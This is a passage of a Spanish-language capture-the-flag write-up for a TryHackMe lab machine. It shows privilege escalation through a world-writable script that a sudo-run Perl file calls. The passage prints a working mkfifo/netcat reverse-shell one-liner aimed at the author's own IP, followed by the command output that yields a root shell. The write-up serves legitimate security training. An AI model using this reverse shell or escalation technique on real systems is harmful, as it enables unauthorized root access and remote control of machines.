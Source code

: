 ```bash
www-data@THM-Chal:/home/itguy$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh 
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ 
```

Vemos que el archivo `backup.pl` manda a llamar al script `/etc/copy.sh` el cual genera una reverse shell hacia la 192.168.0.190:5554 y que además tenemos permisos de escritura sobre dicho archivo. Cambiamos la dirección IP por  la nuestra.

```bash
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.85.95 8443 >/tmp/f
www-data@THM-Chal:/home/itguy$
```

Ahora ejecutamos el archivo en perl  y nos ponemos en escucha por el puerto 8443:

```bash
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

```bash
❯ nc -nlvp 8443
listening on [any] 8443 ...
connect to [10.9.85.95] from (UNKNOWN) [10.10.224.5] 53298
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).